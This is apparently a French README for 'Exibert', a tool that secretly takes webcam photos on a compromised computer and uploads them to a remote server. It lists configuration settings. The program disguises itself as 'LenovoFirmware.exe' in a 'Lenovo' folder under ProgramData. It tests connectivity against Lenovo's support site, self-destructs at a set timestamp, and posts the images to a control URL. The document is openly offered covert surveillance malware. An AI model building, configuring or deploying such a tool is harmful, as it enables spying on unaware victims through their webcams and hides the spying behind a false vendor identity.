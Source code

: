 # Exibert

[](./exibert_icon.jpg)

Exibert permet de prendre régulièrement plusieurs photos de la webcam d'un ordinateur préalablement piégé et d'envoyer ces dernières sur un serveur web.

#### Configuration 

Dans le fichier `global.cpp` plusieurs paramètres sont disponibles :

 - `float GLOBAL_expirationTimestamp = 1560616327000;` Temps UNIX qui
   déclenche l'autodestruction du programme.
- `QString GLOBAL_nameInstallPath = "Lenovo";` Nom du sous-répertoire où sera stocké le programme (lui même sera dans ProgramData).
- `String GLOBAL_nameInstallRun = "LenovoFirmware.exe";` Nom du programme.
- `QString GLOBAL_networkTestUrl = "http://support.lenovo.com/us/en/";` URL qui sera testé pour détecter la présence d'une connexion réseau opérationnelle.
- `QString GLOBAL_networkSendUrl = "http://url.ntd/control.php";` URL de la page contrôle qui reçoit les images.
